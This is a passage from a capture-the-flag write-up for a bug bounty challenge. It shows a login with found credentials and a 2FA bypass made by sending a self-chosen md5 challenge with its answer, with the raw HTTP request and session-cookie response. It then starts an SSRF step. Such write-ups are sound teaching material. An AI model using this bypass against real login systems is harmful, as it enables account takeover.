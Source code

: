 ### Step 4 - Improper Authorization

Once I tried to login with the credentials that I found, aka `username: brian.oliver`, `password: V7h0inzX`, I saw a 2FA. 

Looking into the input fields in the HTML, I saw that the challenge and the challenge's answer were sent together within the same request. I had it clear that the challenge was hashed with md5, so I tried to use my own hash by using `md5 -s 1` which resulted with `c4ca4238a0b923820dcc509a6f75849b` and then I just used `1` in order to login, and it worked. The request looked like this:

```
POST / HTTP/1.1
Host: app.bountypay.h1ctf.com
Content-Length: 101
Content-Type: application/x-www-form-urlencoded

username=brian.oliver&password=V7h0inzX&challenge=c4ca4238a0b923820dcc509a6f75849b&challenge_answer=1
```

and the response: 

```
HTTP/1.1 302 Found
Server: nginx/1.14.0 (Ubuntu)
Date: Tue, 09 Jun 2020 16:14:12 GMT
Content-Type: text/html; charset=UTF-8
Connection: keep-alive
Set-Cookie: token=eyJhY2NvdW50X2lkIjoiRjhnSGlxU2RwSyIsImhhc2giOiJkZTIzNWJmZmQyM2RmNjk5NWFkNGUwOTMwYmFhYzFhMiJ9; expires=Thu, 09-Jul-2020 16:14:12 GMT; Max-Age=2592000
Location: /
Content-Length: 0
```

Using this new cookie, I was logged in as Brian Oliver.

### Step 5 - SSRF

After I bypassed the application's 2FA using Brain Oliver's credentials, I tried to play with the application's feature. The application had only one available feature which was suppose to show me the payment statements of the company, but trying to fetch this data resulted with nothing new. 

I looked into the request and I saw that it was doing the following request: 

```
GET /statements?month=01&year=2020 HTTP/1.1
Host: app.bountypay.h1ctf.com
Connection: close
Accept: */*
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36
X-Requested-With: XMLHttpRequest
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://app.bountypay.h1ctf.com/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,he;q=0.8
Cookie: token=eyJhY2NvdW50X2lkIjoiRjhnSGlxU2RwSyIsImhhc2giOiJkZTIzNWJmZmQyM2RmNjk5NWFkNGUwOTMwYmFhYzFhMiJ9

```
